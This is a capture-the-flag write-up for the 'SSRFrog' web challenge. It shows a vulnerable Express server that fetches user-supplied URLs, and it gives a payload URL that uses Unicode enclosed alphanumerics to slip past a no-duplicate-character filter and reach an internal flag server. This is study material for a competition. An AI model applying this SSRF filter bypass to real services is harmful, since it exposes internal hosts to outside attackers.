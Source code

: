 ## SSRFrog
> **Category:** Web
> **Description:** http://chall.ctf.bamboofox.tw:9453/
> **Pad Link:** http://34.87.94.220/pad/web-ssrfrog
> **Flag:**
---


## Source Code
~~~html
<!-- btw, FLAG is on this server: http://the.c0o0o0l-fl444g.server.internal:80 -->
~~~

~~~javascript
const express = require("express");
const http = require("http");

const app = express();

app.get("/source", (req, res) => {
    return res.sendFile(__filename);
})
app.get('/', (req, res) => {
    const { url } = req.query;
    if (!url || typeof url !== 'string') return res.sendFile(__dirname + "/index.html");

    // no duplicate characters in `url`
    if (url.length !== new Set(url).size) return res.sendFile(__dirname + "/frog.png");

    try {
        http.get(url, resp => {
            resp.setEncoding("utf-8");
            resp.statusCode === 200 ? resp.on('data', data => res.send(data)) : res.send(":(");
        }).on('error', () => res.send("WTF?"));
    } catch (error) {
        res.send("WTF?");
    }
});
app.listen(3000, '0.0.0.0');
~~~



http://chall.ctf.bamboofox.tw:9453/?url=htTp:/\%E2%93%89He.c0o%E2%93%AAO%E2%82%80l-fL4%E2%91%A3%E2%82%84g%EF%BC%8EsErv%E2%93%94R%E3%80%82in%E2%93%A3%E2%92%BA%E2%93%87Na%E2%93%81

## References
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#bypass-using-enclosed-alphanumerics

## Bugs
SSRF

## Exploit Ideas



## Scripts

